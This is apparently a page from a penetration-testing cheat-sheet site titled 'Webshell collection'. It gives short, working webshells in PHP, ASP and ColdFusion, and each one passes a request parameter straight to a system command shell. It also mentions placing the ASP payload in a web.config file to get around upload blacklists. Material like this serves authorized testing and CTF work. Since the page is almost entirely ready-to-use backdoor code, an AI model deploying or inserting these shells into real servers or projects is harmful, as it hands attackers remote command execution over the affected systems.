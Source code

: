 ```yaml
---
title: "Webshell collection"
description: "A collection of simple webshells"
date: 11/03/2021
categories:
 - Web
tags:
 - webshell
 - rce
---
```



## PHP

On the PHP page there is other [functions to execute code](/php/#command-execution):

```php
<?php
	if(isset($_GET['cmd'])) {
		system($_GET['cmd']);
	}
?>
```


## ASP

```asp
<%
Response.write("<pre>")
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c " & Request.QueryString("cmd"))
o = cmd.StdOut.Readall()
Response.write(o)
Response.write("</pre>")
%>
```

This payload can be include on a [`web.config` file](/iis/#bypass-blacklist-upload)


## ColdFusion

```cfm
<cfsavecontent variable="cmdOutput">
<cfexecute name="C:\Windows\System32\cmd.exe" arguments="/c #Request.cmd#" timeout="10"></cfexecute>
</cfsavecontent>
<pre>
#HTMLCodeFormat(cmdOutput)#
</pre>
```
